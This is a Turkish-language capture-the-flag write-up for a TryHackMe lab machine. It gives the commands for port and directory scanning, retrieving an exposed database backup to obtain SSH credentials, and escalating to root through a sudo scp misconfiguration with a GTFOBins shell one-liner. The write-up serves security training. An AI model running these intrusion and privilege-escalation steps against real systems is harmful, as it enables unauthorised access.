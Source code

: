 # TRYHACKME BTTSubuCTF WRITEUP

## Makineye Erişim 
Makineye https://tryhackme.com/room/bttsubuctf adresinden erisebilirsiniz.  

## Çözüm Adımları 
Öncelikle makineye erişmek için openvpn ile TryHackMe'nin ağına bağlanıyoruz: 

```bash
openvpn vpn_dosyamız.ovpn
```
sonra rustscan aracı ile port taraması başlatıyoruz: 

```bash
rustscan -a 192.168.1.72 -- -sC -sV 
```
-a ip belirtir 

-- rustscanden nmap e geçer 

-sC nmap e script taraması yapmasını söyler 

-sV nmap e versiyon taraması yapmasını söyler 

![Resim2](pics/ctf_2.png)

Tarama sonucunda 22 portunda ssh ve 80 portunda apache2 web server çalıştığını görüyoruz. Websitesine gidince bir firmaya ait basit bir website ile karşılaşıyoruz.


![Resim2](pics/ctf_1.png)

Websitesine dizin taraması yapmak için dirsearch aracını kullanıyoruz: 

```bash
dirsearch -u http://192.168.1.72
```
-u hedefi belirtir 

![Resim4](pics/ctf_3.png)

Yaptığımız arama sonucunda db_backup.sql adında içinde önemli bilgiler olabilecek bir dosya görüyoruz. Dosyayı görüntülemek için curl aracını kullanıyoruz: 

```bash
curl -ks http://192.168.1.72/db_backup.sql -v 
```
-ks ssl ve tls doğrulamasını atlatır 

-v website ile aramızdaki trafiği daha detaylı gösterir

![Resim4](pics/ctf_4.png)

Ve sysadmin kullanıcısının şifresini öğreniyoruz. Bu kullanıcı ile ssh girişi yapabilir miyiz kontrol ediyoruz: 

```bash
ssh sysadmin@192.168.1.72
```
![Resim5](pics/ctf_5.png)

Ve içerdeyiz . İçerde gizli bir ipucu dosyası buluyoruz: 

![Resim5](pics/ctf_6.png)

Sudo yetkilermizi aşağıdaki komutla kontrol ediyoruz: 

```bash
sudo -l
```

-l kullanıcı yetkilerini listeler 


![Resim5](pics/ctf_7.png)

Sadece scp komutunu root yetkisiyle çalıştırabildiğimizi görüyoruz. Bu önlemi aşmak için https://gtfobins.github.io/gtfobins/scp/ sayfasına gidiyoruz

![Resim5](pics/ctf_8.png)

Sayfada root olmak için aşağdaki komutu kullanmamız gerektiğini öğreniyoruz: 

```bash 
TF=$(mktemp) && echo 'sh 0<&2 1>&2' > $TF && chmod +x "$TF" && sudo scp -S $TF x y:
```
TF=$(mktemp) : /tmp dizininde geçici bir dosya oluşturur ve dosya yolunu TF değişkenine atar . 

echo 'sh 0<&2 1>&2' > $TF oluşturduğumuz geçici dosyaya shell açma komutunu(sh 0<&2 1>&2) yazar . 

chmod +x "$TF" dosyamıza çalıştırma izni verir 

sudo scp -S $TF x y:  scp komutunu root yetkileriyle bizim geçici dosyamızı çalıştıracak şekilde başlatır 

![Resim5](pics/ctf_9.png)

Ve rootuz!. shellimizi tam interaktif hale getirmek için aşağıdaki python kodunu kullanıyoruz: 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Bu sayede pythondaki pty kutuphanesi ile bash shell i almış oluyoruz .



